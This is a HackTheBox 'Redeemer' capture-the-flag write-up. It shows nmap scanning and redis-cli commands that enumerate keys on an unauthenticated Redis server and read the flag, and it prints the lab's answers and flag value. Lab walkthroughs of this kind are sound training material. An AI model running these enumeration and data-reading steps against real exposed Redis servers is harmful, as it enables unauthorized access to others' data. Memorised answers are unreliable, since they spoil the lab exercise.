 ```yaml
---
title: HTB - Redeemer 
date: 2023-08-01
categories: [HackTheBox, Machine]
tags: [redis]
---
```


# Redeemer

_Which TCP port is open on the machine?_

```bash
$ nmap -sC -sV <ip>
no port open

$ nmap -sC -sV -p- <ip>
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

_Which service is running on the port that is open on the machine?_

`Redis`

_What type of database is Redis?_

`In-memory Database`

_Which command-line utility is used to interact with the Redis server?_

`redis-cli`

_Which flag is used with the Redis command-line utility to specify the hostname?_

`-h <hostname>`

_Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?_

```bash
$ redis-cli -h <hostname> -p <port>
hostname:port> info
```

_What is the version of the Redis server being used on the target machine?_

`5.0.7`

_Which command is used to select the desired database in Redis?_

`select`

_How many keys are present inside the database with index 0?_

```bash
hostname:port> info
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
...
```

_Which command is used to obtain all the keys in a database?_

`keys *`

_Submit root flag_

```bash
hostname:port> keys * 
1) "temp" 
2) "stor" 
3) "numb" 
4) "flag" 
hostname:port> keys 4 
(empty array) 
hostname:port> keys flag 
1) "flag" 
hostname:port> get flag 
"03e1d2b376c37ab3f5319922053953eb"
```
